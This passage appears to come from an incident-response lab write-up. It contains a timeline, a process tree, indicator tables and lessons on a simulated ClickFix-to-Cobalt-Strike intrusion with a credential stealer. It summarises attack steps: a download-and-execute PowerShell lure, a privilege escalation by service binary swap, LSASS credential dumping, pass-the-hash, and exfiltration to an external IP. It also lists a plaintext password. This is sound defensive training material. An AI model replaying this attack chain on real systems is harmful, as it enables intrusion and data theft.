| `2026-04-21 00:30:45` | Lateral Movement | PtH with `k.mostafa.admin` NTLM hash to `COMP-FS-01` (`10.10.11.81`); `2fdb156.exe` dropped via SMB | T1550.002, T1021.002 |
| `2026-04-21 00:30:47` | Defense Evasion | `2fdb156.exe` deleted from `COMP-FS-01` 2 seconds after execution | T1070.004 |
| `2026-04-21 00:52:50` | Execution | `cptchbuild.bin` renamed to `svc_update.exe` (VodkaStealer binary) | T1036.003 |
| `2026-04-21 00:53:06` | Persistence | Scheduled task `\NextGen\DataSync Update` created on `PAYOPS-WS-04` running `svc_update.exe` as `SYSTEM` | T1053.005 |
| `2026-04-21 01:20:05` | Execution | `vodkastealer_emulator.ps1` renamed to `svc_update.ps1` | T1036.003 |
| `2026-04-21 01:20:32` | Persistence | Scheduled task updated to run `svc_update.ps1` as `SYSTEM` on `PAYOPS-WS-04` | T1053.005 |
| `2026-04-21 01:33:41` | Collection | `svc_update.ps1` Phase B kills `opera.exe`, `msedge.exe`; Phase C creates staging dir `sysinfo_US_10.0.0.1_210420260133` | T1005, T1555.003 |
| `2026-04-21 01:33:49` | Exfiltration | Staged data exfiltrated to `165.245.213.184:4444` from `PAYOPS-WS-04` | T1041 |
| `2026-04-21 01:39:03` | Lateral Movement | PtH with `k.mostafa.admin` to `BCHAIN-WS-11`; `svc_update.ps1` deployed | T1550.002 |
| `2026-04-21 01:50:18` | Persistence | Scheduled task `\NextGen\DataSync Update` created on `BCHAIN-WS-11` | T1053.005 |
| `2026-04-21 01:51:27` | Exfiltration | Staged data exfiltrated to `165.245.213.184:4444` from `BCHAIN-WS-11` | T1041 |

## Text Tree

```sql
hxxp://3[.]122.229[.]6/captcha.html  ← ClickFix CAPTCHA overlay
    └── explorer.exe (n.hesham) — Run dialog paste
        └── powershell.exe — IEX DownloadString('/payload.ps1')  ← payload.ps1 C2 implant
            ├── [Discovery]
            │   ├── cmd.exe → whoami / systeminfo / ipconfig / net user/group
            │   └── cmd.exe → wmic service get name,pathname,startmode | findstr DataSync
            ├── [Privilege Escalation — T1574.010]
            │   ├── cmd.exe → sc stop DataSyncPro
            │   ├── cmd.exe → move Service.exe Sync.exe  ← binary replacement
            │   └── cmd.exe → shutdown /r /t 5 /f  ← triggers hijacked service on reboot
            └── [C2 — TLS to 100[.]52.249[.]75:443]

[Post-Reboot — SYSTEM]
    └── services.exe → Sync.exe (SYSTEM)
        └── rundll32.exe {c73af8d8-c152}  ← CS beacon, PPID spoofed, pipe \postex_789a
            ├── [Credential Access]
            │   └── rundll32.exe → LSASS (0x1fffff → 0x1010)  ← NTLM hash dump
            ├── [Discovery]
            │   └── cmd.exe → net view / nltest / net group "Domain Computers"
            ├── [Lateral Movement → COMP-FS-01 10[.]10.11[.]81]
            │   ├── PtH k.mostafa.admin → SMB drop 2fdb156.exe  ← deleted 2s later
            │   └── Persistence: schtasks \NextGen\DataSync Update → svc_update.exe/ps1
            ├── [Lateral Movement → BCHAIN-WS-11]
            │   ├── PtH k.mostafa.admin → svc_update.ps1 deployed
            │   └── Persistence: schtasks \NextGen\DataSync Update → svc_update.ps1
            └── [VodkaStealer — svc_update.ps1]
                ├── Phase A: geo check (US) + mutex
                ├── Phase B: taskkill opera.exe / msedge.exe / firefox.exe
                ├── Phase C: staging dir sysinfo_US_10[.]0.0[.]1_210420260133
                ├── Phase D: browser creds / crypto wallets / docs collection
                ├── Phase E: exfil → 165[.]245.213[.]184:4444 (PAYOPS-WS-04 + BCHAIN-WS-11)
                └── Phase F: cleanup
```

# Artifacts

**Network Indicators**

| Type | Value |
| --- | --- |
| ClickFix delivery server | `3.122.229.6` |
| CS C2 server (TLS beacon) | `100.52.249.75:443` |
| Exfiltration server | `165.245.213.184:4444` |
| Victim workstation (initial) | `10.10.11.252` (`PAYOPS-WS-04`) |
| File server (lateral movement) | `10.10.11.81` (`COMP-FS-01`) |
| Domain controller | `10.10.11.79` (`DC01`) |

**Host Indicators**

| Type | Value |
| --- | --- |
| ClickFix payload URL | `hxxp://3[.]122.229[.]6/payload.ps1` |
| CS service binary (hijacked) | `C:\Program Files\DataSync Pro\Sync.exe` |
| VodkaStealer binary | `C:\ProgramData\svc_update.exe` |
| VodkaStealer script | `C:\ProgramData\svc_update.ps1` |
| CS lateral movement binary | `C:\Windows\2fdb156.exe` |
| Staging directory (`PAYOPS-WS-04`) | `C:\Windows\Temp\sysinfo_US_10.0.0.1_210420260133\` |
| Scheduled task path | `\NextGen\DataSync Update` |
| Hijacked service name | `DataSyncPro` |
| CS named pipe | `\postex_789a` |

**Account Indicators**

| Type | Value |
| --- | --- |
| Initial victim account | `NEXTGEN\n.hesham` |
| PtH lateral movement account | `NEXTGEN\k.mostafa.admin` |
| Exposed plaintext credential | `Welcome@2026` (`n.hesham`) |

**Process Indicators**

| Type | Value |
| --- | --- |
| CS beacon process | `rundll32.exe` (PPID spoofed, `NT AUTHORITY\SYSTEM`) |
| CS beacon ProcessGuid | `{c73af8d8-c152-69e6-5d00-000000005900}` |
| VodkaStealer PowerShell ProcessGuid (PAYOPS) | `{c73af8d8-d3f5-69e6-8f06-000000005900}` |
| VodkaStealer PowerShell ProcessGuid (BCHAIN) | `{c73af8d8-d7f3-69e6-db19-000000005600}` |

# Lab Insights

- Shared infrastructure tells a richer story than isolated `IOC`s. The same `IP` served as both the `ClickFix` delivery server and the `VodkaStealer` exfil destination, and the failed `reverse shell` attempts revealed that infrastructure before the actual `C2` was identified. Treating attacker `IP`s as a connected graph rather than discrete indicators would have surfaced the full scope faster and earlier.
- `PPID spoofing` and `process hollowing` make parent-child pivoting unreliable as a sole technique. Multiple `rundll32.exe` instances had forged parent `GUID`s with no matching `Event ID 1`, forcing pivots through `named pipes`, `LSASS` access patterns, and network connections instead. When the `process tree` is poisoned, `behavioral indicators` (`access masks`, `pipe names`, `call traces` with `UNKNOWN` modules) become the primary anchors.
- The distinction between attempted and actual execution matters more than it appears. `taskkill` fired against three browsers but `Event ID 5` confirmed only two actually terminated — and the lab answer diverged from the forensic evidence. Correlating intent (`Event ID 1`) against outcome (`Event ID 5`, `Event ID 23`) is a pattern that prevents both over-attribution and missed scope in real incidents.
- `Service hijacking` as a `PrivEsc` vector leaves a surprisingly clean footprint. The entire escalation from Medium to `SYSTEM` hinged on a `move` command and a reboot — no `shellcode`, no exploit, no `AV` trigger. The only detection opportunity was the `sc stop` / `move` / `shutdown` sequence on the same `parent process`, which only stands out when you have full `process lineage` rather than individual event alerting.
- `Geofencing` in malware is both an `OpSec` tell and an investigative gift. The keyboard/locale check in `VodkaStealer` immediately narrows attribution geography and explains why certain victims are targeted over others. For defenders, these checks are detectable in `script block logs` and can be used to fingerprint malware families without requiring full `sandbox` detonation.
- Multi-chain environments require a discipline shift from linear investigation to parallel pivoting. Three concurrent execution chains — the initial `payload.ps1` session, the post-reboot `CS beacon`, and the `VodkaStealer` `scheduled task` — each spawned their own `rundll32.exe` trees running simultaneously. The instinct to follow one thread to completion before starting another leads to missed context; the more effective pattern is anchoring each chain by its root `ProcessGuid` first, then investigating breadth before depth.

# Forensic Timeline

